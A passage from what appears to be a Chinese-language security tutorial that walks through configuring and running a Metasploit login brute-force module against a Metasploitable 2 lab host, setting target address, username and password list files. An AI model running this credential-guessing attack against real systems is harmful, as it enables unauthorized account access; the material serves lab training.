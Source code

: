     ![](../img/eca048c122bfab937dae9f09627315e9.png)

6.  将 RHOST 设置为 Metasploitable 2 主机或目标主机的地址。

    ```
    set RHOST 192.168.10.111 
    ```

7.  设置用户名文件的位置。你可以选择：

    ```
    set user_file /root/Desktop/usernames.txt
    ```

8.  设置密码文件的位置。你可以选择：

    ```
    set pass_file /root/Desktop/passwords.txt
    ```

9.  执行漏洞利用：

    ```
    Exploit
    ```

    ![](../img/b85a102d547eaaeb738728103e312ad5.png)

10.  Metasploit 会尝试输入包含在两个文件中的所有用户名和密码组合。找到生效的登录和密码组合旁边的`+`符号就可以了。

### 工作原理
